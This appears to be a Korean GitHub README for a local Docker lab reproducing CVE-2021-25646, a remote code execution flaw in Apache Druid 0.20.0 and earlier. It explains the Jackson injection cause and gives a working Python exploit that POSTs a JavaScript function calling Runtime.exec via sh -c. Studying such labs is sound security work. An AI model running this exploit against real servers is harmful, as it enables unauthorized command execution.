







# CVE-2021-25646
[Original README(English version)](README_eng.md)

### Apache Druid에서의 원격 코드 실행(RCE) 취약점
- Apache druid는 다양한 종류의 requests를 통해 사용자 제공 Javascript 코드를 실행하는 기능을 가지고 있음
-  이 기능은 신뢰 가능한 환경에서 사용하기 위한 것으로, 기본적으로 비활성화되어있음
-  하지만 Druid 0.20.0 혹은 그 이전 버전에서 1)서버 구성에 관계없이 2)인증된 사용자가  자신이 제공한 Javascript 코드를 실행하도록 요청을 보낼 수 있음이 밝혀짐
- 해당 취약점은 Druid 서버 프로세스의 권한으로 타겟 시스템에서 코드를 실행하는데 사용될 수 있음

### 취약 버전
- Apache Druid <= 0.20.0

### 취약점 발생 부분 분석
- Jackson 라이브러리는 Java 객체를 JSON으로, 또는 JSON을 Java 객체로 변환해주는 라이브러리이다. Jackson 라이브러리의 특정 동작 방식을 이용해 exploit

- @JsonCreator 주석이 달려있는 생성자를 살펴보자. 매개변수에 @JsonProperty가 없고 대신 @JacksonInject 가 있다면 해당 매개변수는 사용자 입력에서 값 받아올 수 있게 된다.
- 즉 사용자가 전달한 json 문자열을 파싱할 때 config 매개변수의 값을 사용자가 제어할 수 있는 취약점 발생.


- user payload로 전달된 함수는 js 엔진에 의해 실행되고, js 코드는 java 함수 호출을 지원하므로 시스템 명령을 호출하는 java 코드를 작성하면 되겠다
```
var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(["sh","-c", payload ]).getInputStream()).useDelimiter("\\A").next();
```

### 취약점 발생 확인
- docker-compose를 이용해 apache-druid-0.20.0 서버 올려놓고 로컬에서 테스트해보았다.

- Burp Suite를 이용해 GET 요청을 가로챈 후, payload가 포함된 POST 요청으로 바꿔치기해 forward했다.


- 유저 화면에 코드 실행 결과가 그대로 노출된다


- 파이썬 requests 모듈을 이용해 취약 서버에 payload 포함된 POST 요청을 보내보았다.
```python
import requests

url = "http://localhost:8888/druid/indexer/v1/sampler"

headers = {
    "Accept-Encoding": "gzip, deflate",
    "Accept": "*/*",
    "Accept-Language": "en-US;q=0.9,en;q=0.8",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36",
    "Connection": "close",
    "Cache-Control": "max-age=0",
    "Content-Type": "application/json"
}

data = {
    "type": "index",
    "spec": {
        "ioConfig": {
            "type": "index",
            "firehose": {
                "type": "local",
                "baseDir": "/etc",
                "filter": "passwd"
            }
        },
        "dataSchema": {
            "dataSource": "test",
            "parser": {
                "parseSpec": {
                    "format": "javascript",
                    "timestampSpec": {},
                    "dimensionsSpec": {},
                    "function": 'function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(["sh","-c","id"]).getInputStream()).useDelimiter("\\A").next();return {timestamp:123123,test: a}}',
                    "": {
                        "enabled": "true"
                    }
                }
            }
        }
    },
    "samplerConfig": {
        "numRows": 10
    }
}

c = requests.post(url, headers=headers, json=data)
print(c.text)
```

- "test"에 해당하는 값이 code execution 결과이다. 터미널에 결과가 출력되도록 payload code를 구성해 보내야 별다른 에러가 발생하지 않더라


### Prerequisites
- docker-compose 설치되어있어야 함
- make 설치되어있어야 함. `sudo apt update && sudo apt install make` 통해 설치 가능
- python3, requests 모듈 필요

### 환경 구성 및 실행
(작성자는 Ubuntu 22.04 LTS 버전에서 테스트 진행함)
- `make` 명령어 입력
- 옵션 선택, 1번 옵션 선택하여 (터미널 출력이 있는) 유효한 쉘코드 입력하여 결과 확인
- 도커 종료하고 싶으면 `make delete` 명령어 입력


